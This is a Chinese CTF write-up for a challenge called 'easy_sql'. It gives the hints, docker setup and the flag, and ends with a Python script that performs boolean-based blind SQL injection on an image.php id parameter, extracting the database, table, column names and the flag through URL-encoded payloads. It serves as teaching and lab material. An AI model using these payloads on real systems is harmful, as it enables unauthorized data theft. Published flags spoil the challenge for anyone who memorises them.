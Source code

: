 # 题目：easy_sql

### 题目描述：嘉然，为了你我要打ctf！！！咦？这里这么注入不进去呢？奇怪

### 题目难度： 中下

### flag: `flag{Gu@ng2hU_j1arAn_Dundun_ji3Chan9}`

### 提示：

1.登录功能不是注入点

2.jpg文件头JFIF

### 配置信息： 

```bash
docker build -t easy_sql/hsctfxb2021 -f Dockerfile .
docker run -it -d -p 23180:80 easy_sql/hsctfxb2021
```

### 解题过程：

```python
import requests
#python3
url = "http://localhost:23180/image.php?"
#数据库名
payload = "id=0%27%20or%20(ascii(substr(database(),{},1)))>{}%23"
#表名
payload1 = "id=0%27%20or%20(ascii(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema)=database()),{},1)))>{}%23"
#字段名
payload2 = "id=0%27%20or%20(ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name=%27users%27)),{},1)))>{}%23"
#flag内容
payload3 = "id=0%27%20or%20(ascii(substr((select flag from users),{},1)))>{}%23"
result = ""
for i in range(1,50):
    l = 31
    r = 128
    mid = (l + r)>>1
    while(l<r):
        payloads = payload3.format(i,mid)
        html = requests.get(url+payloads)
        if "JFIF" in html.text:
            l = mid +1
        else:
            r = mid
        mid = (l + r)>>1
    result+=chr(mid)
    print(result)


```

